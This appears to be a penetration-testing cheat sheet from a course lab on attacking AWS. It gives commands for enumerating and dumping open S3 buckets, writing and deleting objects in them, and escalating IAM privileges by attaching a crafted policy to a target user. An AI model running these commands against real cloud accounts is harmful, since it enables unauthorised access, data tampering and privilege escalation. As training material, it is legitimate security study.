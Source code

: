 # Cloud computing

## Perform S3 bucket enumeration using various S3 bucket enumeration tools

- Enumerate S3 buckets using lazys3

```bash
ruby lazys3.rb
ruby lazys3.rb [Company]
```

- Enumerate S3 buckets using S3Scanner

```bash
cd S3Scanner/
pip3 install -r requirements.txt
python3 ./s3scanner.py sites.txt
```

  1. Dump all open buckets and log both open and closed buckets in found.txt:  
    `python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt`
  2. Just log open buckets in the default output file (buckets.txt):  
    `python3 ./s3scanner.py names.txt`
  3. Save the file listings of all open buckets to a file:  
    `python ./s3scanner.py --list names.txt`

## Exploit S3 buckets

- Exploit open S3 buckets using AWS CLI

```bash
pip3 install awscli
aws configure
aws s3 ls s3://[Bucket Name]
aws s3 mv Hack.txt s3://certifiedhacker1
aws s3 rm s3://certifiedhacker1/Hack.txt
```

## Perform privilege escalation to gain higher privileges

- Escalate IAM user privileges by exploiting misconfigured user policy

```bash
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json
aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[AccountID]:policy/user-policy
aws iam list-attached-user-policies --user-name [Target Username]
aws iam list-users
```

List of S3 buckets: `aws s3api list-buckets --query "Buckets.Name"`  
User Policies: `aws iam list-user-policies`  
Role Policies: `aws iam list-role-policies`  
Group policies: `aws iam list-group-policies`  
Create user: `aws iam create-user`
